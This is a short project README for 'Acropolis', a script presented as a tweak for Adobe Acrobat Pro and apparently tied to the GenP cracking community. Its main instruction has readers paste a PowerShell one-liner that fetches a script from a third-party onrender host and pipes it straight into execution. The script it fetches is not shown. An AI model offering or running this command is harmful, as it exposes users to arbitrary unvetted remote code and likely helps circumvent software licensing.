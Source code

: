 <p align="center"><img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/adobe_acrobat_logo_icon_169638.png" alt="Acrobat Logo" height="128"></p>

<h1 align="center">Acropolis</h1>

<p align="center">The script to tweak Adobe Acrobat Pro x64</p>
<hr>

## Download / How to use it?

### PowerShell

-   On Windows 8.1/10/11, right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
-   Copy-paste the below code and press enter\
    `irm dank-site.onrender.com/GenP/acropolis-ps | iex`
-   You will see a pop up, follow onscreen instructions.
-   Make sure to click **"Finish"** at the end of the installation.


```
Latest Version: 24.3
Release date: 19-Mar-2024
```

[![1.1]][1]
[![1.2]][2]

[1.1]: https://lookimg.com/images/2023/03/21/QTvjcD.png (Discord)
[1.2]: https://lookimg.com/images/2023/05/17/Q0iZ2U.png (Reddit)

[1]: https://discord.com/invite/X9ZuegSM4N
[2]: https://www.reddit.com/r/GenP

---

<p align="center">Not affiliated with Adobe. For educational purposes only. Use at your own risk.</p>
